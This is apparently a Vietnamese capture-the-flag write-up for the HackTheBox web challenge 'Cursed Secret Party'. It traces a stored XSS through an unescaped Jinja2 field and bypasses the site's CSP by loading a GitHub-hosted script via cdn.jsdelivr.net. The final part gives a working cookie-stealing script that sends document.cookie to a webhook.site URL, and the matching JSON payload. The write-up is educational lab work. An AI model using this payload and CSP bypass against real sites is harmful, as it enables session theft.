


Cursed Secret Party

# solution
- Mở đầu là một giao diện có dạng form để điền thông tin

- Sau khi bấm nút submti để gửi thì sẽ nhận được tin nhắn "Your request will be reviewed by our team!"
- Vây là có vẻ sẽ có 1 con bot đọc nội dung mà mình gửi đi.
- Thử lướt qua source code để tìm từ khóa flag thì ta thấy có đoạn logic xử lý của bot :
bot.js
```js
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});

		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		await page.goto('http://127.0.0.1:1337/admin/delete_all', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		setTimeout(() => {
			browser.close();
		}, 5000);

    } catch(e) {
        console.log(e);
    }
};
```
- Vậy là flag được gán vào trong cookie của bot, mục đích của chúng ta trở nên rõ ràng hơn, đấy là tìm cách lấy được cookie của bot. Mà con bot sẽ xem nội dung chúng ta gửi -> Ý tưởng dùng XSS khá rõ. Ta thử đọc lại flow sau khi submit form xem có lỗi nào không
- endpoint /api/submit
```js
router.post('/api/submit', (req, res) => {
    const { halloween_name, email, costume_type, trick_or_treat } = req.body;

    if (halloween_name && email && costume_type && trick_or_treat) {

        return db.party_request_add(halloween_name, email, costume_type, trick_or_treat)
            .then(() => {
                res.send(response('Your request will be reviewed by our team!'));

                bot.visit();
            })
            .catch(() => res.send(response('Something Went Wrong!')));
    }

    return res.status(401).send(response('Please fill out all the required fields!'));
});
```
- Database function:
```js
async party_request_add(halloween_name, email, costume_type, trick_or_treat) {
		return new Promise(async (resolve, reject) => {
			try {
				let stmt = await this.db.prepare('INSERT INTO party_requests (halloween_name, email, costume_type, trick_or_treat) VALUES (?, ?, ?, ?)');
				resolve((await stmt.run(halloween_name, email, costume_type, trick_or_treat)));
			} catch(e) {
				reject(e);
			}
		});
	}

	async get_party_requests(){
		return new Promise(async (resolve, reject) => {
			try {
				let stmt = await this.db.prepare('SELECT * FROM party_requests');
				resolve(await stmt.all());
			} catch(e) {
				reject(e);
			}
		});
	}
```
- Rõ ràng sau khi ta submit form, dữ liệu sẽ được lưu lại trên database mà không lọc, sau đó hàm bot.visit() sẽ được gọi, cookie có flag sẽ được tạo, gắn cho bot và truy cập đến trang /admin
```js
router.get('/admin', AuthMiddleware, (req, res) => {
    if (req.user.user_role !== 'admin') {
        return res.status(401).send(response('Unautorized!'));
    }

    return db.get_party_requests()
        .then((data) => {
            res.render('admin.html', { requests: data });
        });
});
```
- Sau đó data từ form mà chúng ta gửi lên sẽ được lấy , chèn sau đó render trực tiếp vào admin.html 
- Dưới đây là admin.html
```js
<html>
    <head>
        <link rel="stylesheet" href="/static/css/bootstrap.min.css" />
        <title>Admin panel</title>
    </head>

    <body>
        <div class="container" style="margin-top: 20px">
             
                <div class="card">
                <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }} </div>
                <div class="card-body">
                    <p class="card-title"><strong>Email Address</strong>    : {{ request.email }}</p>
                    <p class="card-text"><strong>Costume Type </strong>   : {{ request.costume_type }} </p>
                    <p class="card-text"><strong>Prefers tricks or treat </strong>   : {{ request.trick_or_treat }} </p>
                    <button class="btn btn-primary">Accept</button>
                    <button class="btn btn-danger">Delete</button>
                </div>
            </div>
            
        </div>

    </body>
</html>
```
- Rõ ràng ở đây có lỗi xss ở {{ request.halloween_name | safe }}, giải thích:
- Trong Flask / Jinja2:

{{ variable }} → tự động escape

{{ variable | safe }} → bỏ escape, nội dung được render trực tiếp vào HTML
- Sau khi test thử một vài payload xss đều không nhận được phản hồi, ta để ý kỹ lại thì thấy web đã bật Content Security Policy (CSP) để chống xss:
```js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```
- Nhưng nó lại cho phép chạy script từ https://cdn.jsdelivr.net , và thật trùng hợp, chúng ta có thể dùng file github qua cdn này với endpoint /gh/user/repo@version/file.js  
- Tạo file pwn.js trên repo github
```js
window.location = 'https://webhook.site/7752b385-e4e8-4daa-a67a-f14dfcd558ce/cookie=' + document.cookie;
```
- Gửi payload tương ứng
```json

{
  "halloween_name":"<script src='https://cdn.jsdelivr.net/gh/d4ngvn/CTF_WRITEUP@main/HackTheBox/Web/Very%20Easy/Cursed%20Secret%20Party/pwn.js'></script>",
  "email":"admin@gmail.cm",
  "costume_type":"monster",
  "trick_or_treat":"tricks"
}

```


- Decode flag 


